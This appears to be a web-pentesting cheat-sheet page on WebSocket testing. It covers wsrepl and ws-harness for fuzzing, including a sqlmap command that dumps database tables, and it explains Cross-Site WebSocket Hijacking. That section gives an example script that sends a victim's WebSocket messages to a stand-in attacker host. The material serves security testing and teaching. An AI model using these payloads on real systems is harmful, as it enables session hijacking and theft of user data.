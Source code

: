 # Web Sockets

> WebSocket is a communication protocol that provides full-duplex communication channels over a single, long-lived connection. This enables real-time, bi-directional communication between clients (typically web browsers) and servers through a persistent connection. WebSockets are commonly used for web applications that require frequent, low-latency updates, such as live chat applications, online gaming, real-time notifications, and financial trading platforms.


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Using wsrepl](#using-wsrepl)
    * [Using ws-harness.py](#using-ws-harness-py)
* [Cross-Site WebSocket Hijacking (CSWSH)](#cross-site-websocket-hijacking-cswsh)
* [Labs](#labs)
* [References](#references)


## Tools

* [doyensec/wsrepl](https://github.com/doyensec/wsrepl) - WebSocket REPL for pentesters
* [mfowl/ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)


## Methodology

### Using wsrepl

`wsrepl`, a tool developed by Doyensec, aims to simplify the auditing of websocket-based apps. It offers an interactive REPL interface that is user-friendly and easy to automate. The tool was developed during an engagement with a client whose web application heavily relied on WebSockets for soft real-time communication.

wsrepl is designed to provide a balance between an interactive REPL experience and automation. It is built with Python’s TUI framework Textual, and it interoperates with curl’s arguments, making it easy to transition from the Upgrade request in Burp to wsrepl. It also provides full transparency of WebSocket opcodes as per RFC 6455 and has an automatic reconnection feature in case of disconnects.

```ps1
pip install wsrepl
wsrepl -u URL -P auth_plugin.py
```

Moreover, wsrepl simplifies the process of transitioning into WebSocket automation. Users just need to write a Python plugin. The plugin system is designed to be flexible, allowing users to define hooks that are executed at various stages of the WebSocket lifecycle (init, on_message_sent, on_message_received, ...).

```py
from wsrepl import Plugin
from wsrepl.WSMessage import WSMessage

import json
import requests

class Demo(Plugin):
    def init(self):
        token = requests.get("https://example.com/uuid").json()["uuid"]
        self.messages = [
            json.dumps({
                "auth": "session",
                "sessionId": token
            })
        ]

    async def on_message_sent(self, message: WSMessage) -> None:
        original = message.msg
        message.msg = json.dumps({
            "type": "message",
            "data": {
                "text": original
            }
        })
        message.short = original
        message.long = message.msg

    async def on_message_received(self, message: WSMessage) -> None:
        original = message.msg
        try:
            message.short = json.loads(original)["data"]["text"]
        except:
            message.short = "Error: could not parse message"

        message.long = original
```


### Using ws-harness.py

Start `ws-harness` to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{
    "auth_user":"dGVzda==",
    "auth_pass":"[FUZZ]"
}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```


## Cross-Site WebSocket Hijacking (CSWSH)

If the WebSocket handshake is not correctly protected using a CSRF token or a
nonce, it's possible to use the authenticated WebSocket of a user on an
attacker's controlled site because the cookies are automatically sent by the
browser. This attack is called Cross-Site WebSocket Hijacking (CSWSH).

Example exploit, hosted on an attacker's server, that exfiltrates the received
data from the WebSocket to the attacker:

```html
<script>
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    ws.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

You have to adjust the code to your exact situation. E.g. if your web
application uses a `Sec-WebSocket-Protocol` header in the handshake request,
you have to add this value as a 2nd parameter to the `WebSocket` function call
in order to add this header.


## Labs

* [PortSwigger - Manipulating WebSocket messages to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities)
* [PortSwigger - Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)
* [PortSwigger - Manipulating the WebSocket handshake to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)
* [Root Me - Web Socket - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/Web-Socket-0-protection)


## References

- [Hacking Web Sockets: All Web Pentest Tools Welcomed - Michael Fowl - March 5, 2019](https://web.archive.org/web/20190306170840/https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
- [Hacking with WebSockets - Mike Shema, Sergey Shekyan, Vaagn Toukharian - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
- [Mini WebSocket CTF - Snowscan - January 27, 2020](https://snowscan.io/bbsctf-evilconneck/#)
- [Streamlining Websocket Pentesting with wsrepl - Andrez Konstantinov - July 18, 2023](https://blog.doyensec.com/2023/07/18/streamlining-websocket-pentesting-with-wsrepl.html)
- [WebSocket Attacks - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/websocket-attacks)